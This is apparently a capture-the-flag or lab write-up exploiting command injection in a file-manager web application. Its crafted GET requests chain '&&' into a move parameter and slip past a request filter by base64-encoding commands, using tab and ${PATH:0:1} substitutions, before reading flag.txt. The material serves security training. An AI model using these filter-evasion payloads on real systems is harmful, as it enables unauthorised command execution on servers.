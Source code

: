 After navigating to the provided IP address, I was presented with a login form. 
![image](https://github.com/user-attachments/assets/8f63b8e7-44c3-459e-9468-332e2290d76e)

Using the credentials guest for both the username and password, I successfully logged in and accessed the main interface of the application. 
![image](https://github.com/user-attachments/assets/bf60fa83-7a6b-47c7-993e-f9a1d669be58)

The dashboard displayed a list of files, each with multiple available actions: **View, Copy to, Direct Link, and Download**. There was also an **Advanced Search** feature. Screenshots of the interface are included below for reference. This initial exploration helped me understand how the web application handled file operations, which later played a key role in identifying command injection points and exploiting them to retrieve the target flag.

Each action triggered specific HTTP GET requests, and by analyzing how the to, from, and move parameters behaved, I started mapping how file operations were executed on the backend. 

### View
```bash
GET /index.php?to=&view=51459716.txt&quickView=1
```
![image](https://github.com/user-attachments/assets/bdc65f98-b252-47f3-a07b-1515a7ef36d5)

### Copy to
```bash
GET /index.php?to=&from=51459716.txt
```
![image](https://github.com/user-attachments/assets/19de108f-c090-464c-823e-9566108aaa5b)

### Direct Link
```bash
GET /51459716.txt
```
![image](https://github.com/user-attachments/assets/b83b42fe-3c22-450e-8034-b638a8cc5615)

### Download
```bash
GET /index.php?to=&dl=51459716.txt
```
![image](https://github.com/user-attachments/assets/b2b95793-2c9b-42cd-ace5-1cf5ae02dba7)

### Advance Search
```bash
POST /index.php?to= HTTP/1.1
SNIP...
ajax=true&content=have&path=.&type=search
```
![image](https://github.com/user-attachments/assets/6873e2e7-139e-45b3-ac5b-dab7f9a283d1)

Initially, attempts to execute commands directly such as `whoami` through either `to=` or `from=` parameters were denied, returning the message **"Malicious request denied."**

**whoami in to**
![image](https://github.com/user-attachments/assets/2d4c5af4-8740-4b8d-9aeb-bd4ef6eb49d6)

**whoami in from**
![image](https://github.com/user-attachments/assets/26105475-ad8d-415e-bdf3-57f711723319)

I tried with other injections commands.
![image](https://github.com/user-attachments/assets/2b26095f-76c4-4fc0-9f17-7af93f1fccb6)

![image](https://github.com/user-attachments/assets/c3e50e94-e288-420d-b846-8d04959c3554)

Through experimentation, it was discovered that the server accepted the  `%26%26` operator when injected in parameters, suggesting the backend command execution might be happening via the `mv` command. This was a valuable clue for chaining shell commands.
![image](https://github.com/user-attachments/assets/0099502c-8cad-4002-b6e5-7d93fd12c090)

Again doing GET /index.php?to=&from=51459716.txt%26%26whoami&finish=1&move=1;whoami gave me the same error

![image](https://github.com/user-attachments/assets/e8fec73e-719a-41f5-9bec-e10ae712f2cd)

To bypass these filters, I base64-encoded the command strings to obfuscate them. For example, I encoded whoami using `echo -n "whoami" | base64`, resulting in `d2hvYW1p`. I then used the following crafted request to attempt execution: 

![image](https://github.com/user-attachments/assets/237a083a-79b4-48e4-9399-f7c548d7404c)

And used that command as follows:
```bash
GET /index.php?to=&from=51459716.txt%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&finish=1&move=1;whoami
```
![image](https://github.com/user-attachments/assets/ef55853b-7647-4ee1-9a0b-27ff212b06cb)

Now changed payload `from` to `to` parameter.
```bash
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=51459716.txt&finish=1&move=1;whoami
```
![image](https://github.com/user-attachments/assets/39cdbdde-f258-4a1a-8644-87423aa8e6dc)

When I used the payload, the previous file gets moved from the list, so we have to regularly update file names in each steps.
```bash
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=605311066.txt&finish=1&move=1
```
![image](https://github.com/user-attachments/assets/528ca51f-943f-4ce8-b3e8-867de6894acf)

Again to find the list I used `ls -la` command but used base64 here as well. 
```bash
echo -n "ls -la" | base64
```                  
![image](https://github.com/user-attachments/assets/41986360-ba2b-4f29-b035-6c131ffb13a9)

Now using the payload with the above base64 output. 
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"bHMgLWxh")&from=787113764.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/8ca9801c-e87b-4e08-b91c-7e0109704609)

After finding the list, now time to use base64 of flag.txt and here i can't directly use cat flag.txt so again use base64.
```bash
echo -n "cat ${PATH:0:1}flag.txt" | base64
```
![image](https://github.com/user-attachments/assets/bef58e53-7716-4a50-b2b0-518f660f5d48)

Finally, after using the payload, got the flag.
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")&from=877915113.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/aac33350-f1eb-404a-8826-eb44861d12cd)


